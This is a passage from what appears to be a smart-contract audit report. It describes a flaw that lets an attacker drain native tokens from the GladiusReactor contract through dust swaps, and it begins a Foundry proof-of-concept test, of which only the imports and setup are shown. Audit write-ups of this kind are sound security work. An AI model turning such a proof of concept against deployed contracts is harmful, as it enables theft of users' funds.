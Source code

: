 Consequently, they drain all the remaining native tokens in the `GladiusReactor` contract by using the DUST spending.

---
The following is the test script and its result.
The test can be put and run by following.
```solidity
Directory: gladius-contracts-internal/test/audit-poc/GladiusReactor.poc.sol

Run: forge test --mt test_Gain_Remaining_GladiusNativeBalance_Via_Swap_Dust -vvv
```
---
#### The `test_Gain_Remaining_GladiusNativeBalance_Via_Swap_Dust` test

Gist: https://gist.github.com/filmptz/9fcce58d764fc85560f40919b4b862c3

```solidity
File: GladiusReactor.poc.sol
pragma solidity 0.8.19;

import {ResolvedOrder, DutchOutput, DutchInput} from "../../src/reactors/ExclusiveDutchOrderReactor.sol";
import {PartialFillLib, GladiusOrder} from "../../src/lib/PartialFillLib.sol";

import {FixedPointMathLib} from "solmate/src/utils/FixedPointMathLib.sol";
import {IPermit2} from "permit2/src/interfaces/IPermit2.sol";
import {GladiusReactor} from "../../src/reactors/GladiusReactor.sol";
import {ResolvedOrder, SignedOrder, OrderInfo, InputToken, OutputToken} from "../../src/base/ReactorStructs.sol";
import {OutputsBuilder} from "../util/OutputsBuilder.sol";
import {DeployPermit2} from "../util/DeployPermit2.sol";
import {OrderInfoBuilder} from "../util/OrderInfoBuilder.sol";
import {RubiconFeeController} from "../../src/fee-controllers/RubiconFeeController.sol";
import {MockERC20} from "../util/mock/MockERC20.sol";
import {MockGladiusFill} from "../util/mock/MockGladiusFill.sol";
import {NATIVE} from "../../src/lib/CurrencyLibrary.sol";
import {PermitSignature} from "../util/PermitSignature.sol";
import {DutchDecayLib} from "../../src/lib/DutchDecayLib.sol";

import {Test, console} from "forge-std/Test.sol";

contract GladiusReactorPoCTest is
    Test,
    DeployPermit2,
    PermitSignature
{
    using PartialFillLib for GladiusOrder;
    using DutchDecayLib for DutchOutput[];
    using DutchDecayLib for DutchInput;
    using PartialFillLib for uint256;

    using OrderInfoBuilder for OrderInfo;
    using FixedPointMathLib for uint256;

    address internal constant PROTOCOL_FEE_OWNER = address(1);

    // TOKENS
    MockERC20 tokenIn;
    MockERC20 tokenOut;

    // GLADIUS-REACTOR-CONFIG
    IPermit2 permit2;
    RubiconFeeController feeController;
    MockGladiusFill fillContract;
```